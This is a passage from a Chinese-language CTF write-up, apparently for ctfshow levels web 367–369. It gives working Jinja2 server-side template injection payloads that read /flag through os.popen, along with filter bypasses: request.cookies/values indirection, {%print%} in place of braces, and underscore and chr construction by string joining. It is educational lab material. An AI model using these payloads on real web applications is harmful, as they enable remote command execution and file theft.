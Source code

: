 ### [web 367](#toc_web-367)

过滤多了个 os，但未过滤 request，那么这里可以继续用 request 来进行绕过  
本来构造的 payload

```bash
{{(lipsum|attr(request.cookies.a)).request.cookies.c.popen(request.cookies.b).read()}}
cookies:a=__globals__&b=cat /flag&c=os
```

但不知为何未正常回显，这里的话采用之前的 values 方式，但不用 POST，通过 GET 进行传值时可以正常回显

```bash
a=__globals__&b=cat /flag&c=os&name={{(lipsum|attr(request.values.a)).get(request.values.c).popen(request.values.b).read()}}
```

[![在这里插入图片描述](assets/1698900310-2edb90864b099413ef1ae60c75af38ec.png)](https://storage.tttang.com/media/attachment/2022/08/14/6a8dec7c-4854-47b2-995d-77b1a1d89dbc.png)

### [web 368](#toc_web-368)

`{{}}`被 ban，这里需要用`{%%}`来进行绕过，修改一下上关 payload 即可

```bash
a=__globals__&b=cat /flag&c=os&name={%print(lipsum|attr(request.values.a)).get(request.values.c).popen(request.values.b).read()%}
```

### [web 369](#toc_web-369)

request 被 ban，这里我们可以自己构造拼接语句来进行攻击  
原 payload 是

```bash
name={%x.open('/flag').read()%}
```

这里由于单引号无法使用，所以我们需要自己构造/flag，构造字符串需要用到 chr，也就需要调用 chr 函数，构造 chr 函数

```bash
构造下划线
{% set a=(()|select|string|list).pop(24)%}
构造 ini="___init__"
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
构造__globals__
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
构造 geti="__getitem__"
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
构造 built="__builtins__"
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
调用 chr() 函数
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
构造/flag
```